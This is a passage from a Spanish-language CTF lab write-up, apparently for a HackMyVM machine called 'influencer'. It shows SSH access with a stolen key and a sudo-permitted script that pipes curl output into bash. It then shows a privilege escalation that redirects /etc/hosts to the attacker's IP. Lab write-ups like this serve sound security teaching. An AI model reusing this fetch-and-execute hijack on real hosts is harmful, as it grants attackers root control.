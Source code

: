 Habiendo copiado la clave, puedo usarla para acceder como Juan.

```
luna@influencer:/tmp$ ssh juan@localhost -i id_rsa -p 1212
[...]
juan@influencer:~$ :)
```

Otra vez compruebo los permisos de **sudo**. Juan puede ejecutar como el usuario **root** el archivo "/home/juan/check.sh".

```
juan@influencer:~$ sudo -l
Matching Defaults entries for juan on influencer:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User juan may run the following commands on influencer:
    (root) NOPASSWD: /bin/bash /home/juan/check.sh
```

Leo el archivo **check.sh**.

```
juan@influencer:~$ cat /home/juan/check.sh 
#!/bin/bash

/usr/bin/curl http://server.hmv/98127651 | /bin/bash
```

Como se puede ver, hace una petición a server.hmv y luego ejecuta lo que obtenga.

Tambíen compruebo que tengo permisos para modificar "/etc/hosts" por lo que cambiar la dirección del dominio es sencillo.

```
juan@influencer:~$ ls -la /etc/hosts
-rw-rw-rw- 1 root juan 247 jun  8 23:00 /etc/hosts
```

Hago que **server.hmv** apunte a la dirección de mi máquina atacante.

```
juan@influencer:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 influencer

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

#127.0.0.1 server.hmv
192.168.1.86 server.hmv
```
